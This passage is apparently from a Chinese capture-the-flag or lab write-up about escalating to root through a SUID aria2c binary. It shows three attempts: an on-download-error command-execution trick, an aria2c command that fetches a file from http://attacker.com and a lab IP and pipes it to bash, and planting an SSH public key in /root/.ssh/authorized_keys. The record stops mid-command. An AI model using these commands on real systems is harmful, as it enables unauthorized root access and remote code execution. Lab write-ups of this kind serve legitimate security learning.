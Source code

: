 ###### 提权尝试一（失败）

> 
`1.COMMAND='id'`
`2.TF=$(mktemp)`
`3.echo "$COMMAND" &gt; $TF`
`4.chmod +x $TF`
`5.aria2c --on-download-error=$TF http://x`


尝试失败决定用第二个<img alt="" height="435" src="https://img-blog.csdnimg.cn/25a9cf21d17f4e62b44dbbb86dd5ce91.png" width="1080"/>

###### 提权尝试二（失败）

第二个是远程加载执行文件，需要满足16位

> 
`1.aria2c --allow-overwrite --gid=aaaaaaaaaaaaaaaa --on-download-complete=bash http://attacker.com/aaaaaaaaaaaaaaaa`


> 
`1.aria2c --allow-overwrite --gid=aaaaaaaaaaaaaaaa --on-download-complete=bash http://192.168.45.218:80/aaaaaaaaaaaaaaaa`


提权没啥用，上传了没执行<img alt="" height="222" src="https://img-blog.csdnimg.cn/d186e8e567b94b55900bcc533eaef435.png" width="1080"/>

###### 提权尝试三(覆盖root的ssh连接密钥)

尝试百度大法寻找`aria2c`提权姿势

> 
`1.aria2c是一个下载工具，拥有SUID权限的话，意味着可以用它下载任何内容，并且可以保存在任意位置。`


是不是可以创建一对密钥，然后把公钥上传到靶机上的`/root/.ssh`下?

> 
`1.# 生成的命令`
`2.ssh-keygen -t rsa`
`3.# 选择需要生成名称`
`4.Enter file in which to save the key (/root/.ssh/id_rsa): yaoruo`
`5.# 是否需要生成密码`
`6.Enter passphrase (empty for no passphrase): `
`7.# 会生成一个密钥和一个公钥`
`8.yaoruo yaoruo.pub`
`9.# 重命名`
`10.cp yaoruo.pub authorized_keys`
`11.# 放到.shh`
`12.cp yaoruo ~/.ssh/`


在目标靶机上用`aria2c`下载这个公钥

> 
`1./usr/bin/aria2c -d /root/.ssh/ -o authorized_keys "http://192.168.45.218:80/authorized_keys" -`
